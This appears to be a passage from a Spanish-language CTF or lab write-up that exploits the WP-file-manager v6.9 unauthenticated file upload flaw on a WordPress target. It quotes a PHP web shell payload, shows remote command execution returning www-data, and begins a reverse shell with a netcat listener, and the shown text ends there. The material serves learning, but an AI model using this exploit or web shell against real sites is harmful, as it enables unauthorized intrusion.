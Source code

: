Parece que encontró más páginas de **WordPress**, pero al investigarlas no tendremos permiso, a excepción de **wp-admin** que nos redirige al login.

Ahora sí, probemos el Exploit.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="Exploit">Probando Exploit: WP-file-manager v6.9 - Unauthenticated Arbitrary File Upload leading to RCE</h2>

En mi caso, renombre el Exploit para identificarlo mejor.

Primero vamos a analizarlo.

Dentro del Exploit, podemos encontrar que hay una ruta que es vulnerable y es donde trabaja el Exploit, siendo la siguiente que está dentro de la función `exploit()`:
```python
upload_url = url+"/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php"
```
Parece que esta es la ruta que permite subir archivos.

Igual se ve la forma en que está cargando la Shell dentro de la variable `payload`:
```python
payload = "------WebKitFormBoundaryvToPIGA...<?php echo \"<pre>\" . shell_exec($_REQUEST['cmd']) . \"</pre>\";?>\r\n------Web...
```
Y, al final, lo manda todo como una **petición POST**.

Bueno, vamos a usar el Exploit:
```bash
python3 WP-file-manager-v69-exploit.py

[*] Uso: python3 WP-file-manager-v69-exploit.py "url" "comando"
[!] Ejemplo: python3 WP-file-manager-v69-exploit.py http://wordpress.local/ id
```
Muy bien, es muy raro la vez que me ha tocado un Exploit con instrucciones en español.

Tal como mencionan sus instrucciones, vamos a usar la URL y el comando **id** para ver si funciona:
```bash
python3 WP-file-manager-v69-exploit.py http://192.168.1.005/blog/ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Funciona.

Vamos a mandar una **Reverse Shell** para poder conectarnos remotamente. Sigue los siguientes pasos:

* Abre una **netcat** en el puerto **443**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

